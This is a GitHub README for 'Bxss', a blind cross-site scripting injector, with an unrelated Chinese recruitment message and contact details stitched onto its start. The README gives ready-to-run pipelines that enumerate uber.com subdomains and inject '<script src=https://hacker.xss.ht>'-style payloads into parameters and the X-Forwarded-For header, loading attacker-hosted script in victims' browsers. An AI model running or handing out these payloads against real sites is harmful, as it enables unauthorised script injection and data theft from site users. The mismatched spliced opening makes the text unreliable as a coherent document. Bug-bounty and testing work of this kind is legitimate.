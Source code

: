 我是光年实验室高级招聘经理。
我在github上访问了你的开源项目，你的代码超赞。你最近有没有在看工作机会，我们在招软件开发工程师，拉钩和BOSS等招聘网站也发布了相关岗位，有公司和职位的详细信息。
我们公司在杭州，业务主要做流量增长，是很多大型互联网公司的流量顾问。公司弹性工作制，福利齐全，发展潜力大，良好的办公环境和学习氛围。
公司官网是http://www.gnlab.com,公司地址是杭州市西湖区古墩路紫金广场B座，若你感兴趣，欢迎与我联系，
电话是0571-88839161，手机号：18668131388，微信号：echo 'bGhsaGxoMTEyNAo='|base64 -D ,静待佳音。如有打扰，还请见谅，祝生活愉快工作顺利。

![alt text](https://www.secjuice.com/content/images/2018/09/blinded-drib.jpg)
##### Version 1.0

# 😎 Bxss 😎
**A Blind XSS Injector tool**



[![Image from Gyazo](https://i.gyazo.com/61c052718748373ff2d267280e2e69cb.gif)](https://gyazo.com/61c052718748373ff2d267280e2e69cb)

### Features

- Inject Blind XSS payloads into custom headers
- Inject Blind XSS payloads into parameters
- Uses Different Request Methods (PUT,POST,GET,OPTIONS) all at once
- Tool Chaining
- Really fast
- Easy to setup


### Install


**`$ go get -u github.com/ethicalhackingplayground/bxss`**

### Arguments
```


          ____
         |  _ \
         | |_) |_  _____ ___
         |  _ <\ \/ / __/ __|
         | |_) |>  <\__ \__ \
         |____//_/\_\___/___/


        -- Coded by @z0idsec --
  -appendMode
        Append the payload to the parameter
  -concurrency int
        Set the concurrency (default 30)
  -header string
        Set the custom header (default "User-Agent")
  -parameters
        Test the parameters for blind xss
  -payload string
        the blind XSS payload
        
```

[![Image from Gyazo](https://i.gyazo.com/c3f18487b015767f011d0845409c6e5b.gif)](https://gyazo.com/c3f18487b015767f011d0845409c6e5b)


### Blind XSS In Parameters
**`$ subfinder uber.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters`**

### Blind XSS In X-Forwarded-For Header

**`$ subfinder uber.com | gau | bxss -payload '"><script src=https://z0id.xss.ht></script>' -header "X-Forwarded-For"`**



**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

